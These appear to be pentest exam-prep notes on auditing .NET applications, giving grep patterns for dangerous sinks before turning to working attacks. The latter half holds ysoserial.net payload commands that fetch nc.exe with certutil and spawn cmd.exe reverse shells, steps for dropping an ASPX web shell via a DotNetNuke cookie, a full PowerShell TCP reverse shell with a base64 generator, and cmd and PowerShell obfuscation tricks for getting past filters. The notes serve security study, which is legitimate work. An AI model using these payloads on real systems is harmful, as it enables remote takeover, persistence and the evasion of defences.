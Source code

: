     Important Files:  Web.config (settings, etc.)
    User-Supplied Data:  System.Web.HttpRequest class
        egrep -iR 'System.Web.HttpRequest|request\.query|querystring|params|\.value' .
    Session Interaction:  Session array or Profile object or System.Web.SessionState.HttpSessionState class
    File Interaction:  System.IO.File, System.IO.FileStream, System.IO.StreamReader, System.IO.StreamWriter
        egrep -R 'File\.|FileStream|StreamReader|StreamWriter' .
    Dangerous Functions:  https://github.com/rinku191/OSWE-prepration/wiki/C%23-Dangerous-Function
    SQLI Vulnerable Functions:  
        egrep -iR 'SqlCommand|SqlDataAdapter|OleDbCommand|OdbcCommand|SqlCeCommand' .
        egrep -iR '\.Execute' .
    OS Commands:  
        egrep -iR 'Start\.Process|Process\.Start|Proc.*Start|start\(' .
        ^.*?process.*?start.*?\+.*?
        Example injection: Process.Start(user_input + "calc.exe") -- either \\attackerip\pwn\  OR  "mal.exe" + '\00'
    XSS: egrep -iR 'Response.Write\(' .
    XXE: egrep -iR 'xmldocument|xpathnavigator|xmltextreader' .
    Troubleshooting:
        Modify (Debugging): right click 'Program' -> edit class
            ex. Console.WriteLine("Variable Value: " + str + "\r\n");
            Save: 'Compile'; then: File > Save All to overwrite
    Deserialization:
        Search for 'deserial' - look for user functions that call Deserialize within a library
            or: 'TypeNameHandling|JavaScriptTypeResolver|BinaryFormatter|XmlSerializer|Serial'
            ((JavaScript|Xml|(Net)*DataContract)Serializer|(Binary|ObjectState|Los|Soap|Client|Server)Formatter|Json.Net|YamlDotNet|FastJson|Xaml|TypeNameHandling|SimpleTypeResolver|(Serialization|Deerialize|UnsafeDeserialize)|(ComponentModel.Activity|Load|Activity.Load)|ResourceReader|(ProxyObject|DecodeSerializedObject|DecodeValue)|ServiceStack.Text)
        Needs IRunnable class without IDeserializationCallback; 'formatter'; TypeNameHandling; JavaScriptTypeResolver
        Look for if Xml/BinarySerializer instance is created based on a changeable property - without validating that object type
            XMLSerializer is more limited - can only serialize public properties, narrow set of known objects, etc.
        Payloads:  ysoserial.net
            **Try different gadgets!!
            #Detect Ping:  sudo tcpdump -i tun0 'icmp and host <tgt ip>'
            #Check documentation for Gadget<>Formatter mappings
            ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 5 10.10.14.44" -o base64
            ysoserial.exe -p DotNetNuke -m run_command -c "ping -n 3 192.168.119.141"
            ysoserial.exe -p DotNetNuke -m run_command -c calc.exe
            ysoserial.exe -p DotNetNuke -m read_file -f win.ini
            ysoserial.exe -p DotNetNuke -m run_command -c "powershell.exe..."
            ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBF....." -o base64
            ysoserial.exe -g WindowsIdentity -f Json.Net -c "ping 10.10.14.10" -o base64
            ysoserial.exe -g WindowsIdentity -f Json.Net -c "net use \\10.10.14.10\share /u:dummy dummy & \\10.10.14.10\share\nc64.exe -e cmd.exe 10.10.14.10 443" -o base64
            ysoserial.exe -f Json.Net -g ObjectDataProvider -c "certutil.exe -urlcache -split -f http://10.10.14.81/nc.exe C:/Windows/System32/spool/drivers/color/nc.exe" -o base64
                ysoserial.exe -f Json.Net -g ObjectDataProvider -c "C:/Windows/System32/spool/drivers/color/nc.exe 10.10.14.81 9001 -e cmd.exe" -o base64 
            #Optional - Test locally with '--test'
        Manual Payloads
            look for native methods/functions to serialize - ex. PullFile/WriteFile methods from FileSystemUtils() class
                But not for XmlSerializer - it can't serialize class methods. It can only serialize public properties and fields. - would need a property that triggers a method
            Payload Creation: compile with Visual Studio, then execute to print payload
                For any classes you're using - add their files as references (ex. DotNetNuke.dll and PresentationFramework.dll)
            ex. ObjectDataProvider Deserialization Gadget->MethodName & MethodParameters properties - from C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll (from 'using System.Windows.Data;')
                Step 1: Test that the final payload works (ex. class can download a file from you) - compile and run ODPfiledownloadtest.cs, hosting myODPTest.txt
                    add breakpoints to debug; ensure Burp intercept is off
                Step 2: Serialize/deserialize it and confirm still working - ODPfdtSerializeNotWork.cs - doesn't work for DotNetNuke vulnerability due to type check
            *ex. ExpandedWrapper ODP workaround - allows creation of objects of arbitrary types (from 'using System.Data.Services.Internal;')
                Use this class to wrap our source object (ObjectDataProvider) into a new object type and provide the properties we need (ObjectDataProvider.MethodName and ObjectDataProvider.MethodParameters). This set of information is assigned to the ExpandedWrapper instance properties, which will allow them to be serialized by the XmlSerializer. 
                    ExpWrapSerializerTest.cs (testing and payload creation) and ExpWrapDeserializerTest.cs (exploitation testing)
                    Web Shell: cmdasp.aspx - write to: C:/inetpub/wwwroot/dotnetnuke/cmdasp.aspx - send as DNNPersonalization cookie
                    Use encoded Powershell reverse shell - ExpWrapWebshell.cs
    Reverse Shell Example (PowerShell):
        $client = New-Object System.Net.Sockets.TCPClient('192.168.119.140',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
        Then convert it to base64:  iconv -f ASCII -t UTF-16LE powershellcmd.txt | base64 | tr -d "\n"
        Run:  powershell.exe [-noprofile -noninteractive -ExecutionPolicy bypass -window hidden] -EncodedCommand JABjAGwAaQ...
            Shorter: -nop -noni -ep bypass -w hidden -enc ...
            Filter bypass: -EncodedCommand  ->  -eNco  OR  -^e^C^
    Encoded Powershell Reverse Shell Generator:
        python -c $'import base64; IP = "10.10.10.19"; PORT = "7878"; payload = \'$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\' % (IP, int(PORT)); print("powershell -e " + base64.b64encode(payload.encode("utf16")[2:]).decode());'
        powershell -e ...
    Cmd.exe obfuscation:  cmd.exe /c P^o^w^e^r^S^h^e^l^l^.^e^x^e^ -No^Ex""it -Ex^ec By^pa""ss -^EC YwBhAG^wAYwA=
